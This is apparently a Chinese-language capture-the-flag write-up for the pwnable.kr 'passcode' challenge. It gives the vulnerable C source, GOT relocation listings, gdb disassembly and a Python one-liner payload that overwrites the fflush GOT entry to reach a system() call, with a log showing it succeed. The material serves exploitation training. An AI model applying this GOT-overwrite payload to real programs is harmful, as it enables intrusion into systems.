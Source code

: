 ```yaml
---
layout: default
title: pwnable_passout_code
parent: Pentrue-test
nav_order: 2
---
```


# pwnable pass code

Source :
- [pwnable.kr](http://pwnable.kr/play.php)
- [gcc stack protection](https://www.ibm.com/developerworks/cn/linux/l-cn-gccstack/)
- [gcc stack protection2](https://kknews.cc/zh-tw/tech/38m3eo3.html)
- [linux got](http://blog.csdn.net/linyt/article/details/51635768)
- [linux got](http://www.freebuf.com/articles/system/135685.html)
---
## 程式原始碼

``` c++
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

---
## solution
### 查got表
```
passcode@ubuntu:~$ readelf  -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
##使用這個位址
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

### disas login
- 查完之後會發現scanf前的地址-0x10(%ebp) 剛好在'a'*96的後四位...
```gdb
gef➤  x/x $ebp -0x10
0xffffcff8:	0x0804a010
```
- 將位址替換成fflush
- scanf %d 0x080485e3(134514147),此處使很關鍵的地方表示fflush會被替換成
```0x080485e3 <+127>:	movl   $0x80487af,(%esp)```
- '\n' 應該表示是字串結尾
```
0xffffcff0:	0x61616161	0x61616161	0x0804a010	0x4ff54700
0xffffd000:	0x08048800	0xffffd0c4	0xffffd018	0x080486e0
0xffffd010:	0xf7fb23dc	0xffffd030	0x00000000	0xf7e18637
0xffffd020:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7e18637
0xffffd030:	0x00000001	0xffffd0c4	0xffffd0cc	0x00000000
0xffffd040:	0x00000000	0x00000000	0xf7fb2000	0xf7ffdc04
0xffffd050:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd060:	0x00000000	0xab31c77d	0x979a496d	0x00000000
```
``` gdb
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
##調用system
## 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
## 0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
``` python
print int("0x080485e3", 0)
134514147
python -c "print ('a'*96+'\x04\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode
 ```
 ### localtest

 ``` console
     0x80485bc <login+33>       call   0x8048480 <__isoc99_scanf@plt>
    0x80485c1 <login+38>       add    esp, 0x10
    0x80485c4 <login+41>       mov    eax, ds:0x804a040
    0x80485c9 <login+46>       sub    esp, 0xc
    0x80485cc <login+49>       push   eax
 →  0x80485cd <login+50>       call   0x8048420 <fflush@plt> ＃call 0x080485e3
   ↳   0x8048420 <fflush@plt+0>   jmp    DWORD PTR ds:0x804a010
       0x8048426 <fflush@plt+6>   push   0x8
       0x804842b <fflush@plt+11>  jmp    0x8048400
       0x8048430 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a014
       0x8048436 <__stack_chk_fail@plt+6> push   0x10
       0x804843b <__stack_chk_fail@plt+11> jmp    0x8048400
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "passcode", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80485cd → Name: login()
[#1] 0x80486e0 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  n
[New process 25845]
process 25845 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "login" not defined.
[New process 25846]
process 25846 is executing new program: /bin/cat
lfagqqqqqq!!!!\n
[Inferior 3 (process 25846) exited normally]
enter passcode1 : Now I can safely trust you that you have credential :)
[*] No debugging session active
gef➤  

 ```